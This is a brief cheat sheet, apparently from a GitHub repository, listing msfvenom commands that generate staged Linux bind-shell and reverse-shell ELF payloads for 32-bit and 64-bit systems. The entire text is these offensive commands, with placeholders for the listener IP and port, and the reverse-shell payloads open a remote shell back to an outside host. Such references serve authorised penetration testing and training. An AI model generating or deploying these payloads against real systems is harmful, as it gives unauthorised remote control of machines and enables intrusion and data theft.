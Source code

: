 # Staged

## 01 - Bind Shells

- x86 (32-bit) Payloads

```
$ msfvenom -p linux/x86/shell/bind_tcp lport=<PORT> -f elf -o shell-x86
```

- x86-64 (64-bit) Payloads

```
$ msfvenom -p linux/x64/shell/bind_tcp lport=<PORT> -f elf -o shell-x86-64
```

## 02 - Reverse Shells

- x86 (32-bit) Payloads

```
$ msfvenom -p linux/x86/shell/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x86
```

- x86-64 (64-bit) Payloads

```
$ msfvenom -p linux/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x64
```